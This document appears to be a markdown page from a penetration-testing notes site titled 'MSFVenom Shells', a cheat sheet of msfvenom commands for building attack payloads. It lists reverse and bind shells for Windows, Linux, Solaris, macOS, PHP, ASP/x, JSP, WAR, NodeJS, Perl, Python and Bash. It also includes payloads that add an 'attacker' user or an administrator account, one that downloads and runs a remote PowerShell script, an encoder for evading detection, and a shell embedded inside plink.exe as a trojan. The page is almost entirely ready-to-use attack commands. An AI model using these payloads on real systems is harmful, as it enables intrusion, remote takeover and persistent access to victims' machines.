 ```yaml
---
title: "MSFVenom Shells"
draft: false
description: "Some useful msfvenom shells"
lead: "Some useful msfvenom shells"
images: []
menu:
  docs:
    parent: "Shells"
weight: 3
toc: true
---
```


## Windows

### <span style="color:#208355"> Reverse Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
```
### <span style="color:#208355"> Bind Shell
```
msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe
```
### <span style="color:#208355"> Create User
```
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe
```
### <span style="color:#208355"> CMD Shell
```
msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
```
### <span style="color:#208355"> Execute Command
```
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
```
```
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
```
### <span style="color:#208355"> Encoder
```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```
### <span style="color:#208355"> Embedded inside executable
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe
```

---
## Linux Payloads
### <span style="color:#208355"> Reverse Shell
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
```
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
```
### <span style="color:#208355"> Bind Shell
```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
```
### <span style="color:#208355"> SunOS (Solaris)
```
msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
```
---
## MAC Payloads
### <span style="color:#208355"> Reverse Shell
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
```
### <span style="color:#208355"> Bind Shell
```
msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
```
---
## Web Based Payloads
### <span style="color:#208355"> PHP
### <span style="color:#208355"># Reverse shell
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
```
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
### <span style="color:#208355"> ASP/x
### <span style="color:#208355"># Reverse shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
```
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
```
### <span style="color:#208355"> JSP
### <span style="color:#208355"># Reverse shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
```
### <span style="color:#208355"> WAR
### <span style="color:#208355"># Reverse Shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```
### <span style="color:#208355"> NodeJS
```
msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
```
---
## Script Language payloads
### <span style="color:#208355"> Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
```
### <span style="color:#208355"> Python
```
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
```
### <span style="color:#208355"> Bash
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw
```